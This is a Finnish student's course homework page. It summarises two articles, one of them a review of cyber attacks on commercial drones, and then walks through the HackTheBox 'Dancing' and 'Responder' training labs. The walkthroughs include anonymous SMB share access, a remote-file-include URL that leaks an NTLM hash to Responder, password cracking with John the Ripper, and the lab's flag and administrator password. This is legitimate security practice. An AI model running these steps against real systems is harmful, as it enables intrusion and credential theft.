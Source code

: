 # h5 Kohti omaa treeniä
 
### x)

### [Karvinen 2025: Start Your Research with a Review Article](https://terokarvinen.com/review-article/)

Tässä artikkelissa Tero kertoo miten aloittaa tutkimus käyttämällä hyödyksi katsausartikkelia. Hän antaa vinkkejä, kuten mitä työkalua käyttää (Google Scholar) ja kuinka uusi artikkelin tulisi olla. (enintään 2 vuotta vanha) Hän myös mainitsee JUFO luokituksen ja sen pitäisi olla 1, 2 tai 3. Lopuksi hän antaa muutaman vinkin Google Scholarin käyttöön, kuten formatoi hakusana muotoon: "aihe + review". Täten löydät vain katsausartikkeleita.


### Review: [Cyber Attacks on Commercial Drones: A Review](https://ieeexplore.ieee.org/abstract/document/10835757)

ISSN: 2169-3536

Julkaisija: IEEE 

JUFO taso: 1

Artikkelissa käsitellään kaupallisten dronejen kyberturvallisuuteen kohdistuvia uhkia. Artikkelin tekijät esittelevät eri metodeja mm. signaalinhäirintää, hakkerointija ja GPS sijainnin manipulaatiota. Näitä käyttämällä hyökkääjä voi esimerksi vakoilla,  Artikkeli korostaa kertoo erilaisia metodeja turvallisuuden parantamiseen ja suosittelee, että sääntelyitä kiristetään.


![x](/images/image27.png)



 


### a)  HTB Dancing. Ratkaise HackTheBox.com: Starting Point: Tier 0: Dancing.

Tein tunnukset HackTheBoxiin. Aloitin yhdistämällä virtuaalikoneen käyttämällä OpenVPN tapaa.

![x](/images/image28.png)

Sitten painoin Spawn the machine joka loi uuden instanssin. Suoritin seuraavan komennon. 

````
nmap -v -A 10.129.1.12 -p 445
````
Jolla sain selville, että portissa 445 oli palvelu nimeltä microsoft-ds

![x](/images/image29.png)
Seuraavaksi piti selvittää montako jakoa on Dancing serverillä on. Suoritin komennon 
````
smbclient -L 10.129.1.12
````
Vastaus oli 4.

![x](/images/image30.png)

Yritetään löytää root lippu. 

````
smbclient //10.129.1.12/WorkShares --no-pass
ls
cd James.P
ls
get flag.txt
````
Flag: 5f61c10dffbc77a704d76016a22f1664 

![x](/images/image31.png)

![x](/images/image32.png)


### b)  HTB Responder. Ratkaise HackTheBox.com: Starting Point: Tier 1: Responder.

Aloitin tehtävävän spawnaamalla machinen. Sain tällä kertaan ip: 10.129.95.234

Skannasin nmapilla ja sain selville unika.htb käytti kieltä PHP. Hostasin nanolla sivua ja sain unikan toimimaan.

![x](/images/image33.png)

Sain myös tehtyä LFI ja RFI tehtävät.
![x](/images/image34.png)

Seuraaksi lähdin etsimään adminstatorin salasanaa. Ensiks laitoin päälle responderin jotta voin tarkkailla liikennettä. 
````
sudo responder -I tun0
````
![x](/images/image35.png)
Nyt responder on käynnissä ja kuuntelee. Seuraavaksi meidän pitää lähettää pyyntöjä serveriltä, jotta voimme kaapata liikenteen. Tämän teemme selaimessa hakemalla seuraavan URL.

````
http://unika.htb/index.php?page=//10.10.14.232/somefile
````

Näin saimme hashin esiintymään responderissa. Seuraavaksi kopioin hashin ja tallensin sen tiedostoon. Sitten ajoin john the ripperillä rockyou.txt ja sain salasanan selville. 

![x](/images/image36.png)

Lopuksi yritetään etsiä root flagi. Aloitetaan kirjautumalla sisään admininstatorilla ja badminton salasanalla. Pääsin sisälle.

![x](/images/image37.png)

Seuraavaksi yritämme etsiä flagia. Se löytyi miken desktopilta .txt tiedostosta.

![x](/images/image38.png)

Kaikki suoritettu!

![x](/images/image39.png)

